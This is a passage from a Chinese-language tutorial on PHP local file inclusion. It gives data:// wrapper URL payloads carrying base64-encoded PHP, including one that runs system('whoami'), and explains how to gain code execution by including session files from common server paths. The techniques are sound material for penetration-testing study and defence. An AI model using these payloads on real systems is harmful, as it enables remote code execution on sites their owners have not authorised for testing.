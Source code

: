 ##### 姿势二:
```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

加号`+`的url编码为`%2b`，`PD9waHAgcGhwaW5mbygpOz8+`的base64解码为：`<?php phpinfo();?>`

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.sbz7wd98hs_1536892624)

###### 执行命令
```
index.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```

其中`PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==`的base64解码为：`<?php system('whoami');?>`

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.ld25k1vwbhj_1536892635)

##### 姿势三：

```
index.php?imagedata=data://image/jpeg;base64,.....
```
（后面加上图片木马）

### 包含session

#### 利用条件：
session文件路径已知，且其中内容部分可控。

#### 姿势：
php的session文件的保存路径可以在`phpinfo`的`session.save_path`看到。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.ozhtg265rd7_1536892642)

**常见的php-session存放位置**：

```
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
session的文件名格式为`sess_[phpsessid]`。而phpsessid在发送的请求的cookie字段中可以看到。

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.7hphazvtxuo_1536892648)

要包含并利用的话，需要能控制部分sesssion文件的内容。暂时没有通用的办法。有些时候，可以先包含进session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码。

比如这篇文章：[透過 LFI 引入 PHP session 檔案觸發 RCE](http://kb.hitcon.org/post/165429468072/%E9%80%8F%E9%81%8E-lfi-%E5%BC%95%E5%85%A5-php-session-%E6%AA%94%E6%A1%88%E8%A7%B8%E7%99%BC-rce)

### 包含日志

#### 访问日志

